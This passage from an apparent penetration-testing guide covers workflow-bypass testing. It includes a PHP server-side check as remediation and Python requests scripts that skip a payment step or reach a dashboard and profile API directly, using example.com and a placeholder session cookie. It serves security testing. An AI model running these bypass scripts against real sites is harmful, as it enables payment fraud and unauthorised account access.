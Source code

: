 **Example Vulnerable Finding**:
- Modified form action -> Response: `Order Confirmed`.

**Remediation**:
- Avoid client-side workflow logic:
  ```php
  if ($_SERVER['REQUEST_URI'] === '/confirm' && !$_SESSION['payment_completed']) {
      header('Location: /payment');
      exit;
  }
  ```

### **5. Script Workflow Bypasses with Python Requests**

Automate tests to bypass workflow steps and evaluate server-side validation.

**Steps**:
1. **Write Python Script**:
   - Create a script to access a later workflow step directly:
     ```python
     import requests

     url = 'http://example.com/confirm'
     data = {'order_id': '123'}
     cookies = {'session': 'abc123'}
     headers = {'User-Agent': 'Mozilla/5.0'}

     # Attempt to skip payment
     response = requests.post(url, data=data, cookies=cookies, headers=headers)
     print(f"Status: {response.status_code}")
     print(f"Response: {response.text}")

     # Attempt to access dashboard without registration
     dashboard_url = 'http://example.com/dashboard'
     response = requests.get(dashboard_url, cookies=cookies, headers=headers)
     print(f"Dashboard Status: {response.status_code}")
     print(f"Dashboard Response: {response.text}")
     ```
2. **Run Script**:
   - Execute: `python3 test.py`.
   - Analyze responses for unauthorized access.
3. **Verify Findings**:
   - Cross-check with Burp Suite results.
4. **Document Results**:
   - Save script output and responses.

**Python Commands**:
- **Command 1**: Run the above script to test order confirmation bypass:
  ```bash
  python3 test.py
  ```
- **Command 2**: Modify the script to test profile access without prior steps and run:
  ```python
  import requests
  url = 'http://example.com/api/v1/user/profile'
  cookies = {'session': 'abc123'}
  response = requests.get(url, cookies=cookies)
  print(f"Status: {response.status_code}")
  print(f"Response: {response.text}")
  ```
  ```bash
  python3 test_profile.py
  ```
